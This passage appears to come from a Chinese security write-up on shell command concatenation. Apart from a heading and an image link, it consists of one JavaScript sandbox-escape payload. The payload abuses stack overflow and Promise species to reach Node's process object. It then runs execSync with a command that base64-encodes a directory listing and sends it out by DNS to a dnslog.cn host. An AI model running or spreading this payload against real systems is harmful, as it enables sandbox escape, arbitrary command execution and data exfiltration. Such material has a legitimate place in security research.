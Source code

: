 [![](assets/1707953808-07af70de9a90ed7c78ce10501e5948b6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240208210756-13b6149c-c683-1.png)

利用$() 进行 shell 拼接

```bash
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('ping $(echo $(ls)|base64 -w)uth1r9.dnslog.cn'); }
            )
        }
    }
};
p.then()
```
